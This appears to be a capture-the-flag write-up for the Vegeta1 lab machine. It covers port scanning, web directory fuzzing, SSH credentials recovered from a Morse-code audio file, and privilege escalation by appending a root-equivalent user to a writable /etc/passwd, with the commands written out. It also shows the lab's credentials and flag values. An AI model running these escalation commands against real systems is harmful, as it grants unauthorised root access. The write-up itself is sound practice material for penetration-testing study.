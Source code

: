 ## Vegeta1: Writeup

Only two ports are open. 

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1f3130673f08302e6daee3209ebd6bba (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC99CVoBmDEZGefSkVfvgPRyFNH5rKQF9KMAsqFTL+Xkbwg2S3t+8tIFpPon/m7SYAH+NTqfv3uYXPq2DkVAXD8i2iXKnRa0+QKHNe2bupBbaTX3xyWGHeL7aBh4Io7xxEiTaCLD9wrDA9aHxHhXdUC0QMvld21dIJygyOoV9P17FC3EwBqJEOjLnCNTxzi25W0f6Gqv1vZXHFeQJfT4CLRZCE8BtpBAaoiKMGFOMJEOy+gVe1YgFim/smodNO51fx7zZKxMjhcE46BBRgcywE1FflXPFx3NYDTkou3Wmo0ENEvXcmD36tZsFeMHLyAv/rD2NG1cCWJp6tfcD/SbSPj
|   256 7d8855a86f56c805a47382dcd8db4759 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJVCfO2orE34rbwG0NoOp8DNLMEusESLX7L7c45ZjSk7DgSn8edbEuGlswfCdyyROevxZ/aHgMQO8avPFE/ZAME=
|   256 ccdede4e84a891f51ad6d2a62e9e1ce0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAc1RjhxOyboK+O9fxD5/tbd04IwXVwrQQDT16A111tu
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I have no usernames, so I'll go for the web service on port 80.
Fuzz the web root. The only way to get ahead here is to gradually use a larger and larger wordlist until you find the key directory, here bulma:

```bash
$ ffuf -u http://192.168.192.73/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 100

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.192.73/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

img                     [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 60ms]
image                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 42ms]
admin                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 44ms]
manual                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 53ms]
                        [Status: 200, Size: 119, Words: 6, Lines: 10, Duration: 47ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 38ms]
bulma                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 39ms]
```

In /bulma, you'll find a wav file of Morse code signals. 

![1](screenshots/1.png)

Decode [here](https://morsecode.world/international/decoder/audio-decoder-adaptive.html):

![2](screenshots/2.png)

From the message, I believe the creds are this:
`trunks:u$3r`

Try them out:

```bash
$ ssh trunks@192.168.192.73
The authenticity of host '192.168.192.73 (192.168.192.73)' can't be established.
ED25519 key fingerprint is SHA256:rsXPQiqA/9/evxX6rCmmUEw19kPNCvB8JB0r8rYuXR4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.192.73' (ED25519) to the list of known hosts.
trunks@192.168.192.73's password:
Linux Vegeta 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
trunks@Vegeta:~$ whoami
trunks
trunks@Vegeta:~$ id
uid=1000(trunks) gid=1000(trunks) groups=1000(trunks),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
trunks@Vegeta:~$ hostname
Vegeta
trunks@Vegeta:~$ hostname -I
192.168.192.73
trunks@Vegeta:~$ ls
local.txt
```

Collect `local.txt`:

```bash
trunks@Vegeta:~$ cat local.txt
eb2ea549906e89e720c201f3f30211ba
```

Bash history is available, which is odd. Check out:

```bash
trunks@Vegeta:~$ cat .bash_history
perl -le ‘print crypt(“Password@973″,”addedsalt”)’
perl -le 'print crypt("Password@973","addedsalt")'
echo "Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd[/sh]
echo "Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
ls
su Tom
ls -la
cat .bash_history
sudo apt-get install vim
apt-get install vim
su root
cat .bash_history
exit
```

Check out the permissions on `/etc/passwd`:

```bash
trunks@Vegeta:/tmp$ ls -la /etc/passwd
-rw-r--r-- 1 trunks root 1486 Jun 28  2020 /etc/passwd
```

It's writable. Write my own user and give him root privileges:

```bash
# on attacker
$ openssl passwd -1 -salt lemmy password
$1$lemmy$ztKELy8y03kjX1kPJxCJv1

# on target
trunks@Vegeta:/tmp$ echo "lemmy:\$1\$lemmy\$ztKELy8y03kjX1kPJxCJv1:0:0:root:/root:/bin/bash" >> /etc/passwd
```

Become root:

```bash
trunks@Vegeta:/tmp$ su lemmy
Password:
root@Vegeta:/tmp# cd /root
root@Vegeta:~# ls
proof.txt  root.txt
root@Vegeta:~# cat proof.txt
ed5cc38f76dc1de64d5bb7de7912ff15
```

![3](screenshots/3.png)
